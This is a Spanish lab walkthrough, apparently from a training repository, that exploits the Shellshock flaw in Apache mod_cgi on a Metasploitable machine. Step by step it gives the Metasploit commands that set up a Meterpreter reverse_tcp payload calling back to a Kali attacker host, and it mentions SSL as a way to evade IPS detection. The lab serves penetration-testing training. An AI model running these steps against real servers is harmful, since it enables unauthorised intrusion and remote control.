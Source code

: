 # Explotar vulnerabilidad CVE-2014-6271 (Shellshock) presente en Apache.

Este laboratorio muestra como usar la vulnerabilidad ***Shellshock*** que consigue ejecutar código mediante su inyección en una variable de entorno de Bash. Para ello usa el módulo ***mod_cgi*** del servidor Apache. Aquí tienes información sobre la vulnerabilidad: https://www.cvedetails.com/cve/CVE-2014-6271/.

La debilidad se encuentra en cómo la shell ***Bash*** gestiona las variables de entorno externas. Utiliza ***scripts CGI*** en el servidor web Apache inyectando una función maliciosa en la variable de entorno ***HTTP_USER_AGENT***.

Usamos ***nmap*** contra la víctima para determinar si está presente el servidor Apache.
```
nmap -sV 192.168.20.13 -p 80, 443
```

Como puede observarse en la imagen, está presente el servidor ***Apache 2.4.7*** en el puerto ***80***.

![Servidor Apache presente](../img/lab-30-B/202208111032.png)

Cargamos la consola de ***Metasploit*** sino estuviera ya iniciada.
```
msfconsole
```

Procedemos a cargar el módulo para realizar el ataque.
```
use exploit/multi/http/apache_mod_cgi_bash_env_exec
```

Mostramos las ***opciones*** de este exploit.
```
show options
```

Las opciones son las siguientes.

![Opciones del módulo](../img/lab-30-B/202208111038.png)

Las configuraciones que debemos proporcionar son:

* *CMD_MAX_LENGTH*: Obligatoria. Es el número de caracteres que vamos a inyectar en la víctima. El valor 2048 suele ser suficiente para albergar las diferentes ***payloads*** disponibles. No lo cambiamos.
* *CVE*: Obligatoria. Contiene la vulnerabilidad a explotar, pudiendo elegir entre CVE-2014-6271 (https://www.cvedetails.com/cve/CVE-2014-6271/) y CVE-2014-6278 (https://www.cvedetails.com/cve/CVE-2014-6278/). Esta última es una variante de la anterior. Dejaremos el valor por defecto.
* *HEADER*: Obligatoria. Especifica la cabecera HTTP que será usada para inyectar el código malicioso. Debe ser ***User-Agent***, así que no la cambiamos.
* *METHOD*: Obligatoria. Especifica el verbo HTTP a utilizar. Debe ser ***GET***. No lo cambiamos.
* *Proxies*: Opcional. Permite relizar el ataque a través de un proxy. No lo usaremos.
* *RHOSTS: Obligatoria. IP(s) de la víctima(s). Ponemos la de ***Metasploitable-ubu1404***, que es ***192.168.20.13***.
* *RPATH*: Obligatoria. Ruta para los binarios usados por el ***Command Stager***. Cuando un payload es largo, el ataque podría no funcionar porque no es posible inyectar la totalidad de dicho payload. El ***Command Stager*** es un pequeño programa que puede ser inyectado, siendo su misión la de descargar el payload verdadero por trozos o partes (etapas). Dejamos la ruta por defecto.
* *RPORT*: Puerto que está sirviendo Apache. Como hemos visto con ***nmap*** es el ***80***. Lo dejamos tal cual.
* *SRVHOST*: Obligatoria. IP del servidor en la máquina ***Kali*** que recibirá la conexión del payload. Si solo disponemos de una IP, es indiferente. No cambiamos este ajuste.
* *SRVPORT*: Obligatoria. Puerto del servidor en la máquina ***Kali*** desde el que el ***CmdStager*** se descargará el payload. Dejamos este valor.
* *SSL*: Opcional. Podemos ocultar el tráfico del payload por medio de SSL. Su finalidad es evadir la detección de los ***IPS***. No lo usamos.
* *SSLCert*: Opcional. Certificado necesario para usar SSL. No lo usamos.
* *TARGETURI*: Ruta al script CGI que será inyectado y que deseamos ejecutar. Lo cambiamos a ***/cgi-bin/hello_world.sh***.
* *TIMEOUT*: Obligatorio. Tiempo de espera para recibir la response. Lo dejamos como está.
* *URIPATH*: Opcional. Este exploit no usa URI. Lo dejamos en blanco.
* *VHOST*: Opcional. Un ***Virtual host*** es una forma de alojamiento web que permite que varias paginas web puedan funcionar en un mismo host. Nuestro objetivo no es un virtual host, así que lo dejamos en blanco.

```
set RHOSTS 192.168.20.13
```

```
set TARGETURI /cgi-bin/hello_world.sh
```

Es el momento de mostrar los payloads compatibles con este ataque.
```
show payloads
```

Tenemos mucha diversidad.

![Lista de payloads](../img/lab-30-B/202208111124.png)

Vamos a usar un ***Meterpreter***.
```
set payload linux/x86/meterpreter/reverse_tcp
```
```
show options
```

Debemos configurar las opciones del payload.

![Opciones del payload](../img/lab-30-B/202208111129.png)

Establecemos como atacante la máquina de ***Kali***.
```
set LHOST 192.168.20.9
```

Respecto a ***LPORT*** dejamos el valor propuesto (***4444***). A este puerto se conectará el payload de meterpreter para ofrecernos la shell inversa.

Mostramos los ***targets***.
```
show targets
```

Hay dos candidatos, pero cuidado, el payload de meterpreter que hemos elegido es ***x86***, por lo que no funcionará en sistemas de ***64*** bits. Mejor elegimos el ***target 0***.
```
set target 0
````

El comando ***Check*** nos indica si se cumplen todas las condiciones para que el ataque pueda prosperar. Si nos dijera ***el objetivo NO es vulnerable*** seguro que el ataque no funcionará. Por el contrario, si la respuesta es ***el objetivo ES vulnerable***, solo nos informa que se cumplen las condiciones, pero no es garantía de que funcione. La víctima puede tener contramedidas (antivirus, IPS, etc) o incluso estar parcheada.
```
check
```

En principio podemos seguir con el ataque.

![Target is vulnerable](../img/lab-30-B/202208111143.png)

Solo resta lanzar el ataque y esperar obtener una shell inversa.
```
run
```
